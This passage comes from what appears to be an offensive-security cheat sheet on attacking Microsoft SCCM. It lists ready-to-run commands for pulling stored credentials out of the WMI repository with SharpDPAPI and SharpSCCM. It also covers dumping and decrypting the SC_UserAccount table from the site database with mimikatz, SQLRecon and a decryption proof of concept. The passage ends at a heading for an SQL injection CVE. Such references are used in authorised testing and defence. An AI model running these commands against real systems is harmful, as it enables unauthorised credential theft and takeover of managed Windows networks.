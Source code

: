 **Exploitation**:

* Search the database using `SharpDPAPI`

    ```ps1
    .\SharpDPAPI.exe search /type:file /path:C:\Windows\System32\wbem\Repository\OBJECTS.DATA
    ```

* Search the database using `SharpSCCM`

    ```ps1
    .\SharpSCCM.exe local secrets -m disk
    ```

* Check ACL for the CIM repository located at `C:\Windows\System32\wbem\Repository\OBJECTS.DATA`:

    ```ps1
    Get-Acl C:\Windows\System32\wbem\Repository\OBJECTS.DATA | Format-List -Property PSPath,sddl
    ConvertFrom-SddlString ""
    ```

### CRED-5 Extract the SC_UserAccount table from the site database

* [Misconfiguration-Manager - CRED-5](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-5/cred-5_description.md)

**Requirements**:

* Site database access
* Primary site server access
    * Access to the private key used for encryption

**Exploitation**:

* [gentilkiwi/mimikatz](https://twitter.com/gentilkiwi/status/1392204021461569537)

    ```ps1
    mimikatz # misc::sccm /connectionstring:"DRIVER={SQL Server};Trusted=true;DATABASE=ConfigMgr_CHQ;SERVER=CM1;"
    ```

* [skahwah/SQLRecon](https://github.com/skahwah/SQLRecon), only if the site server and database are hosted on the same system

    ```ps1
    SQLRecon.exe /auth:WinToken /host:CM1 /database:ConfigMgr_CHQ /module:sDecryptCredentials
    ```

* SQLRecon + [xpn/sccmdecryptpoc.cs](https://gist.github.com/xpn/5f497d2725a041922c427c3aaa3b37d1)

    ```ps1
    SQLRecon.exe /auth:WinToken /host:<SITE-DB> /database:CM_<SITECODE> /module:query /command:"SELECT * FROM SC_UserAccount"
    sccmdecryptpoc.exe 0C010000080[...]5D6F0
    ```

### Unauthenticated SQL Injection - CVE-2024-43468
